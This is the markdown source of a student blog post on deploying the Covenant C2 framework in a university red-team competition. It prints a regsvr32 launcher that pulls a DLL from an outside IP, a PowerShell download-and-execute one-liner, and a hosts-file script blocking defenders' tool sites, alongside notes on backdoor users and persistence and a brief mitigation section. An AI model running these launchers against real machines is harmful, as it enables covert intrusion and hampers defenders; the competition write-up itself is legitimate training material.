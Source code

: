 ```yaml
---
layout: post
title: Power of Covenant
subtitle: Deploying Covenant
tags: 
    - redteam
    - windows
    - c2
    - security
    - powershell
    - docker
comments: true
published: true
image: /img/pwnboard_image.png
---
```


# Using Covenant & Red Teaming 

### Introduction

This past weekend, I had my first ever red teaming experience at 
University of Buffalo called [Lockdown](https://lockdown.ubnetdef.org/).
I knew from the start I would be tackling Windows for this competition; 
however, I wasn't sure what I wanted to do. Did I want to use 
Empire, Metasploit, maybe Pupy? The answer was none of the above.
For this competition I wanted to try out something new.

### Deploying Covenant
I decided to go with [Covenant](https://github.com/cobbr/covenant).
This is a fairly recent C2 that came out a couple months ago
based on the .NET framework and written in C#. An interesting
aspect of this C2 is that it's divided into two parts, Covenant
is the server and [Elite](https://github.com/cobbr/Elite) 
is what interacts with the server. The last part is 
just Grunts, that is just the Implant. 
One of the issues I came across when testing this is out is
how long it took to set up, I just wanted to at the start of the competition
hit a button and have everything I needed. With some help from
Docker I created a docker-compose file to assist me. This 
[file](https://github.com/NotoriousRebel/covDeploy) did the
heavy lifting for me. One really awesome aspect of this C2 was
that we could spin up Covenant on one server and when anyone
ssh'd onto our server it would docker-compose up Elite for them. 
This meant they didn't have to download docker-compose and would make
things centralized. 

![Plan](/img/plan.png)


### Using Covenant
Deployment was trivial all we had to do was docker-compose up.

![Easy-Deployment](/img/easy_deployment.png)

In reality we would want to tack on -d when composing Covenant
to background it. 

Using powershell with a remote session would be too noisy, 
extremely easy to notice, and trivial to kill. 
To make things stealthier I decided to go with registering a dll and utilizing Regsvr32.
As Regsvr32 is developed by Microsoft and in apart of System32
it would look a lot less suspicious. However, this requires
the dotnet framework to be installed on the target machine.
Luckily this is a oneliner that doesn't require a restart.

```powershell
Add-WindowsCapability –Online -Name NetFx3~~~~ –Source D:\sources\sxs
```
The launcher is just a simple one liner, and the icing on the cake
is that we can have our server host the dll file instead of having to get that file
on the target machine.

![Launcher](/img/launcher.png)

```powershell
regsvr32 /u /s /i:http://129.21.228.140/demo.dll scrobj.dll
```
/u: Unregister server calling DllRegisterServer

/s: Silent: display no message boxes.

/i: Since used with /u calls Dll uninstall

scobj.dll: Is the Dllname that the entry points on.

Once ran on the target machine we get a nice beacon back
and can have some fun. For the competition one of the most important
things to do is maintain persistence. Making sure to add backdoor
users, firewall rules, scheduled tasks, and services were essential.
One service that was critical is WinRM to allow us to remotely run
scripts. Making sure it was running was quite simple with 
Covenant.

![Restarting_Winrm](/img/example_powershell.png)

Although, in most cases we had those commands in a powershell
file hosted somewhere so we were able to simply do. 
```powershell
(IWR -Uri "https://hostingsite.com" -UseBasicParsing).Content | IEX
```
IWR: Invoke-WebRequest

IEX: Invoke-Expression

It was also fun messing with them by doing very basic things
such as messing with the hosts file in Windows.

```powershell
    $hosts_path = "C:\Windows\System32\drivers\etc\hosts"
    $local = "127.0.0.1"
    $text = @"
    $local      github.com
    $local      termbin.com
    $local      pastebin.com
    $local      tinyurl.com
    $local      bitly.com 
    $local      google.com
    $local	stackoverflow.com
    $local 	raw.githubusercontent.com
    $local 	chocolatey.org
    $local 	docs.microsoft.com
    $local 	wireshark.org
"@ 
    Add-Content -Path $hosts_path -Value $text
```

Of course Covenant had some nice features such as 
GetSystem which allowed us to run things at System level. While
also having standard things such as Mimikatz and Registry 
manipulation. However, a pretty unique feature was the integration of allowing
people to run C# sharp code.

### Customization 

Covenant on it's own is great; however, as part of the
[RITSECRedTeam](https://github.com/RITRedTeam) we like to keep track of things.
One of the most important things is the [pwnboard](https://github.com/micahjmartin/pwnboard).
The pwnboard is a visualization to keep track of what we have control of and to
see what teams are giving us trouble.

![pwnboard-blue](/img/pwnboard.png)

To show that you have control of a box is a mere post request with
json that contains the ip and type of beacon. There is one obvious problem,
Covenant doesn't automatically do this. That's ok I was planning on 
learning C#. After talking to the developer to figure out where to 
make the post request to pwnboard whenever a Grunt was created.

![post_req](/img/post_topwnboard.PNG)

This function is inside Covenant/GruntController.cs, 
it just does a post request using the Grunt's ip address 
wrapped inside a try catch statement in case we lose connection.

Due to last minute complications, the dotnet framework couldn't 
be installed on every Windows box so I used a powershell launcher
for all of the boxes as well as the Regsvr32 launcher if possible.
As we could prebake our stuff I was able to deploy to all of the boxes
and watch the beacons rain down as well as turn the pwnboard red.

![pwnboard-red](/img/pwnboard_red.PNG)

At the start of the competition these are just some of the beacons.

![call_backs](/img/call_backs.PNG)

### Mitigation

Monitoring processes and network traffic on your system is 
crucial as it will be much easier to spot when something 
is out of the ordinary. For example if you've never seen
Regsvr32 running on your system before it might be worthwhile
to investigate and you would be shocked at what you find.

![RegsvrImage](/img/procexp_regsvr.png)

However, knowing what's going in and out of your network is just as 
important if you opened wireshark and noticed a lot of http
traffic that would be highly suspicious.
For example, if you noticed this http traffic.

![http-traffic](/img/http_traffic.png)

Upon noticing this you followed the http stream you would notice this.

![encoded-command](/img/long-command.PNG)

### Take Aways

Although Covenant may seem somewhat limited in what it can
do compared to other C2's such as Powershell Empire
or Pupy. You have to keep in mind this came out about in February, 
regardless Covenant can already do a lot and comes with a vast amount
of rich features that are hard to ignore. 
Overall Covenant is a solid choice for a C2 framework.

References:

[Regsvr32 Info](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/regsvr32)